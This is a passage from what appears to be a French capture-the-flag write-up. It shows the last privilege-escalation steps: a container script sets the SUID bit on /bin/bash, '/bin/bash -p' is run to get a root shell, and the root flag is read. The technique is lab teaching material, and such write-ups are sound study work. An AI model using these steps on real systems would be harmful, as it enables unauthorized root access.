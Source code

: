 Maintenant, nous allons exécuter le `/usr/sbin/run_container`, qui va appelé le script `/opt/run_container.sh` et qui va donc changer les permissions sur le dossier `/bin/bash` :
```sh
/usr/sbin/run_container
ls -la /bin/bash
```
![](Screens/app%20armor%20bug%203.png)

![](Screens/app%20armor%20bug%205.png)

Enfin, nous allons terminer par la commande suivante, qui nous faire passer pour le compte root dans ce terminal car la commande `/bin/bash -p` lance un shell Bash avec les paramètres de privilège conservés (`root`) :
```sh
/bin/bash -p
```
![](Screens/app%20armor%20bug%204.1.png)

Et en faisant cette commande, nous pouvons voir que nous sommes maintenant connecté en tant que root !
```sh
whoami
```
![](Screens/app%20armor%20bug%204.3.png)

Dans ce nouveau terminal bash en root, avec `bash-5.0##` devant le terminal, nous trouvons  facilement le fichier `root.txt` contenant le dernier flag de la room :
```sh
ls -la
cat root.txt
```
![](Screens/root%20flag.png)

**Voici le flag root !**
